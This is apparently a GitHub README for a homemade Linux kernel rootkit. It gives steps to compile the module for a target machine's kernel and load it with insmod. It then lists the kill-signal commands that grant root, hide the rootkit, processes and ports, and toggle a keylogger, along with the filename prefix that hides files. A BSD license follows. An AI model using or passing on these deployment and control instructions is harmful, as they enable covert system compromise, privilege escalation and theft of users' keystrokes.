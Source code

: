 # My very own rootkit!
Most code copied from [The Xcellerator](https://github.com/xcellerator/linux_kernel_hacking/tree/master/3_RootkitTechniques)

Keylogger from [jarun](https://github.com/jarun/spy)

The rootkit's name is `system_x_helper`

---

## How to install

First get the target's kernel version so we can compile (run `$ uname -r`)
Next, in the `Makefile` replace `$(shell uname -r)` with the output of the target's output

Install `make build-essential linux-headers-$(uname -r)`

Now run `$ make`

Finaly, run `$ /sbin/insmod system_x_helper.ko`

---

## Functionality
- Uses `kill` to run different things
- Gives root access
- Hide files/directories
- Hide processes
- Hide open ports/active connections
- Hide itself
- Keylogger (log: `/sys/kernel/debug/system_x_kisni/system_x_keys`)

---

## Kill flags for each functionality

#### Root backdoor
`$ kill -64 9843`
> 9843 can be any number

#### Toggle hide/unhide self (Hidden by default)
`$ kill -63 9489`
> 9489 can be any number

#### Toggle hide specified process (Can hide up to 16)
`$ kill -62 <PID to hide/unhide>`

#### Hide ports
`$ kill -61 <port number to hide>`

#### Toggle keylogger
`$ kill -60 9028`
> 9028 can be any number

---

## Hidden files/directories

#### Prefix
`system_x_`
> hides the file/directory

---

# LISCENSE
BSD 2-Clause License

Copyright (c) 2023, Kaicheng Ye

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:

1. Redistributions of source code must retain the above copyright notice, this
   list of conditions and the following disclaimer.

2. Redistributions in binary form must reproduce the above copyright notice,
   this list of conditions and the following disclaimer in the documentation
   and/or other materials provided with the distribution.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

